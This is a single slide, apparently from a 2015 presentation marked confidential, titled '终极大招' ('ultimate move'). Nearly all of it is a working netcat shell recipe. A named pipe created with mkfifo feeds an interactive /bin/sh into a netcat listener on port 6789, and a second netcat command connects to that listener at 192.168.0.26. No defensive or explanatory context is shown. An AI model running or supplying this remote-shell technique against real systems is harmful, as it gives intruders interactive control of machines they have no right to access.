

终极大招
mkfifo /tmp/tmp_fifo
cat /tmp/tmp_fifo | /bin/sh -i 2>&1 | nc -l 6789 > /tmp/tmp_fifo
nc -n 192.168.0.26 6789
11/24/2015
Confidential Property
12